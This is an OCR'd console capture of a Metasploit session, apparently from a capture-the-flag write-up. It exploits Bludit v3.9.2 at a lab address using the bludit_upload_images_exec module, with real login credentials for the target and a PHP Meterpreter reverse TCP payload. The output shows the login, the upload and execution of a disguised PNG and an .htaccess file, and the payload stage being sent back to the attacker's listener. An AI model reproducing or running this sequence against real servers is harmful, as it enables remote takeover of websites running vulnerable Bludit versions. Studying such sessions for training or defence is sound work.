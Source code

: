 ```text
   ----   ---------------  --------  -----------
   LHOST  192.168.239.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2


msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(linux/http/bludit_upload_images_exec) > set LPORT 44446
LPORT => 44446
msf5 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  44446             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2

msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.15.57:44446 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading zzYXCHGvEG.png...
[*] Uploading .htaccess...
[*] Executing zzYXCHGvEG.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
```